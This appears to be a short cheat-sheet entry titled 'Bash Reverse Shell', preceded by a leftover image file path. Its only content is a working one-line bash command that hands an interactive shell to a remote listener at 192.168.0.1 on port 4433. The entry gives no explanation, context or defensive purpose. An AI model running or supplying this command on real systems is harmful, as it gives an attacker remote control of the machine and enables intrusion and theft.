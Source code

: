 # Bash Reverse Shell
```
/bin/bash -i >& /dev/tcp/192.168.0.1/4433 0>&1
```

# Related

Tags:
    #assorted
